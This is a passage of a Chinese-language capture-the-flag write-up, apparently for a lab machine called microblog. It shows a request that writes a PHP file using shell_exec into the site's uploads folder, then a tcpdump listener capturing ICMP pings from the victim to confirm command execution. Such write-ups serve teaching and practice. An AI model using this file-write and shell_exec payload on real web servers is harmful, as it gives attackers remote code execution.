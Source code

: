 ```
id=/var/www/microblog/hyper/uploads/test.php&txt=<%3fphp+echo+shell_exec("ping+-c+1+10.10.16.18")%3b%3f>
```

<figure><img src="../../../.gitbook/assets/image (80).png" alt=""><figcaption></figcaption></figure>

我们通过tun0接口监听 ICMP 跟踪。请求发送后，我们必须访问以下网站路线。

```
┌──(root㉿kali)-[~]
└─# sudo tcpdump -n -i tun0 icmp                                                                              
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

发送请求后，我们必须访问以下 Web 路径才能执行 PHP 代码。

<figure><img src="../../../.gitbook/assets/image (81).png" alt=""><figcaption></figcaption></figure>

如果一切正确，我们将收到受害计算机的 ICMP 跟踪，从而验证我们是否有能力执行命令。

```
┌──(root㉿kali)-[~]
└─# sudo tcpdump -n -i tun0 icmp                                                                              
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
03:35:47.512285 IP 10.10.11.213 > 10.10.16.18: ICMP echo request, id 2100, seq 1, length 64
03:35:47.512349 IP 10.10.16.18 > 10.10.11.213: ICMP echo reply, id 2100, seq 1, length 64
```
